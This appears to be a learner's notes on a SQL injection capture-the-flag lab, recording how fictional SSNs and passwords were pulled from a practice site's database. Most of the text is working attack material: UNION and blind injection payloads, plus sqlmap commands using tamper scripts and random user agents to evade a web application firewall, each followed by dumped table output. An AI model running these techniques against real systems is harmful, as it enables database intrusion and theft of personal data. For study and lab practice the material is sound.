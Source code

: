 # SQL Injection Challenges
https://games.samsclass.info/sqli/ED103.html

## ED 103.2.1: SSN (15 pts)
**The flag is Linus' SSN.**

## Determine how many columns are being returned in the original sql payload
Not part of the curiculum but it's an extra tool in my belt I'll eventually need
>Sam' ORDER BY 1#

Returns nothing
>Sam' ORDER BY 2#

Gives an error.
Thus, there is 1 column being returned in the original payload.

>Sam' UNION SELECT ssn from employees#

Returns all SSNs in the employee table.

## ED 103.2.2: Password (20 pts extra)
The flag is Steve Jobs' password.
>Sam' union select pw from passwords where id=2#

alpine

##But how would I have found out that 'passwords' was a table that existed??
>Sam' union select 1 from passwords#

If this returns 1, it proves that the table passwords exists.
Now, column 'pw' I wouldn't have saught out to guess, but I guess any general variation of 'password' should always be checked.

Haven't gotten this one yet...

### sqlmap -u "https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs" --tamper=between,randomcase,space2comment --random-agent -v 3 -p u --columns -T passwords

```Table: passwords
[3 columns]
+---------+----------------------+
| Column  | Type                 |
+---------+----------------------+
| id      | smallint(5) unsigned |
| isadmin | smallint(5) unsigned |
| pw      | varchar(20)          |
+---------+----------------------+
```



### sqlmap -u "https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs" --tamper=between,randomcase,space2comment --random-agent -v 3 -p u --dump -T passwords
```+----+----------+---------+
| id | pw       | isadmin |
+----+----------+---------+
| 1  | Dropping | 1       |
| 2  | Fl33t    | 0       |
| 3  | d0ggi3   | 0       |
| 4  | h4gg15   | 0       |
| 5  | w1n73r   | 999     |
+----+----------+---------+
```

### sqlmap -u "https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs" --tamper=between,randomcase,space2comment --random-agent -v 3 -p u --dump -T employees
```Table: employees
[5 entries]
+----+-------------+----------------+
| id | ssn         | name           |
+----+-------------+----------------+
| 1  | 111-22-3456 | Bill Gates     |
| 2  | 333-22-4888 | Steve Jobs     |
| 3  | 444-22-1569 | Linus Torvalds |
| 4  | 444-33-1569 | WOZ            |
| 5  | sss-22-1569 | Grouper        |
+----+-------------+----------------+
```

**Steve Job (id=2)'s password = Dropping. He wanted us to do it by manual UNION exploitation, so I'll have to manually do that.

Admin's ID:

1

[ ] - x' UNION SELECT name FROM employees WHERE name='admin' AND substr(id, 1, 1)='1'#
[!] - User x' UNION SELECT name FROM employees WHERE name='admin' AND length(id)='1'# found!



# ED 103.2.4: Sqlmap on a Protected Target (10 pts extra)
`Find the current username, covered by a green box in the image below. That's the flag.`

### Notes
- --current-user

sqlmap -u "https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs" -p u --current-user

### Answer
- current user: 'bill2a@localhost'




# ED 103.2.5: Sqlmap: Retrieving Data (20 pts extra)
```Use Sqlmap on this target:
https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs

Recover the data from the tables. The flag is Steve Jobs' SSN.
```

General notes:
- -T tablename (specify tablename)
- --dump (dump all contents of the table; this is necessary for the command to work)

Key notes to get around WAF:
- --tamper=between,randomcase,space2comment (you need each .py script located in the dir you're working in!!!)
- --random-agent

### sqlmap -u "https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs" --tamper=between,randomcase,space2comment --random-agent -v 3 -p u --tables

```Database: widgets2a
Table: employees
[5 entries]
+----+-------------+----------------+
| id | ssn         | name           |
+----+-------------+----------------+
| 1  | 111-22-3456 | Bill Gates     |
| 2  | 333-22-4888 | Steve Jobs     |
| 3  | 444-22-1569 | Linus Torvalds |
| 4  | 444-33-1569 | WOZ            |
| 5  | sss-22-1569 | Grouper        |
+----+-------------+----------------+
```
